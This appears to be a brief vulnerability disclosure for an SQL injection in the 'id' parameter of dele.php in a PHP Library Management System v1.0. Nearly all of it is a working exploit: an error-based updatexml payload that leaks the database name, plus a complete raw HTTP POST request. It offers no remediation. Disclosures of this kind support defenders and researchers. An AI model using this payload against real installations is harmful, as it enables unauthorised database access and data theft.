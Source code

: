 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/librarian/dele.php

Vulnerability location: /LMS/librarian/dele.php, id

[+] Payload: delete=&id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /LMS/librarian/dele.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

delete=&id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/180454256-462e2b54-c097-477e-a9bf-66b926fff9bc.png)
